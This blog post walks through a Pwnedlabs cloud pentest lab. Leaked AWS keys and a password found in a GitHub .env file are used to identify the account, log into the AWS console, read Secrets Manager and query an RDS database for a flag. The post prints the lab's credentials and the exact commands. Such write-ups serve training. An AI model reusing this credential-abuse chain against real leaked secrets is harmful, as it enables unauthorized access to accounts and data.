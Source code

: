 ```yaml
---
author: Nithissh S
pubDatetime: 2023-03-02
modDatetime: 2023-03-02
title: Leverage Leaked Credentials through Pwnage - Pwnedlabs Walkthrough
slug: leverage-leaked-credentials-for-pwnage
featured: false
draft: false
tags:
  - Pwnedlabs
  - Cloud Pentest
description:
  In this blog, you will learn how to enumerate the Account ID with the Access key you found during your assessment and later on we will address RDS database enumeration
---
```


## Leverage Leaked Credentials for Pwnage 

As an Initial Entry point we have been provided with the following details 

  

|     |     |
| --- | --- |
| Type | Value |
| Github | [https://github.com/huge-logistics/aws-react-app](https://github.com/huge-logistics/aws-react-app)<br> |

  

The scenario here is ever-shifting world of logistics, Huge Logistics has emerged as an undisputed global leader. Yet, every Goliath has its vulnerabilities. Whispered rumors in cybersecurity circles suggest that amidst the vast digital sprawl of Huge Logistics, there might lie unnoticed weaknesses. As a seasoned security consultant, your mission is set: Navigate the labyrinth of Huge Logistics' GitHub repositories, looking for the smallest chink in their armor. Dive deep, analyze thoroughly, and leave no stone unturned. Can you spot what others have missed?

  

## Solution 

In the following repository, where they have been provided with `.env` file and inspecting that we found two interesting things which will be useful for us one is the AWS access key which is `AKIAWHEOTHRFVXYV44WP`  

  

![](../../assets/images/lev1.png) 

  

With the aws cli module, we can retrieve the account ID of this access key with the following command `aws sts get-access-key-info --access-key <access key>` 

  

```sh
r4y@DESKTOP-3KBF4H7:/mnt/c/Users/Nithissh/.aws$ aws sts get-access-key-info --access-key-id AKIAWHEOTHRFVXYV44WP --profile nithissh
{
    "Account": "427648302155"
}
```

  

In the same `.env`  file we also have database credentials with username as `jose`  and password as `DevOps0001!` and let’s do one thing like credential stuffing attack on AWS login console.. We know the AWS account ID right so through IAM login, fill up the account ID as `427648302155` later the username and password as `jose` and `DevOps0001!` 

  

![](../../assets/images/lev2.png)   

  

Once we click on login and suprisingly the method worked out and logged in as a IAM user called `jose` and exploring the console they used `AWS secrets manager` may be they would have used recently 

  

![](../../assets/images/lev3.png)   

  

There are 4 secrets being stored over there and out of which two are interesting one is [employee-database-admin](https://us-east-1.console.aws.amazon.com/secretsmanager/secret?name=employee-database-admin&region=us-east-1) and [employee-database](https://us-east-1.console.aws.amazon.com/secretsmanager/secret?name=employee-database-admin&region=us-east-1) 

  

Accessing the [`employee-database-admin`](https://us-east-1.console.aws.amazon.com/secretsmanager/secret?name=employee-database-admin&region=us-east-1) is restricted here and particularly for this account

  

![](../../assets/images/lev4.png) 
  

But we can able to access [`employee-database`](https://us-east-1.console.aws.amazon.com/secretsmanager/secret?name=employee-database-admin&region=us-east-1) and retrieve the secrets like DB name, DB username and password.. Also the hostname 

  

![](../../assets/images/lev5.png)  

  

With the following details and we connect it through `mysql-client` 

  

```sh
r4y@DESKTOP-3KBF4H7:/mnt/c/Users/Nithissh/.aws$ mysql -u reports -h employees.cwqkzlyzmm5z.us-east-1.rds.amazonaws.com -
D employees -p
Enter password:
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 496468
Server version: 5.5.5-10.6.10-MariaDB managed by https://aws.amazon.com/rds/

Copyright (c) 2000, 2024, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```

  

We can list the tables using `show tables;` query and found that `flag` row exists which is obviously our objective to capture 

  

```sql
mysql> show tables;
+---------------------+
| Tables_in_employees |
+---------------------+
| countries           |
| departments         |
| dependents          |
| employees           |
| flag                |
| jobs                |
| locations           |
| regions             |
+---------------------+
8 rows in set (0.25 sec)
```

  

Now finally, you can the get flag through `SELECT * FROM flag`  and it will dump out our flag

  

```sql
mysql> SELECT * FROM flag;
+----------------------------------+
| flag                             |
+----------------------------------+
| d0e4b22365ad230c53c4ffc269dc0202 |
+----------------------------------+
1 row in set (0.24 sec)
```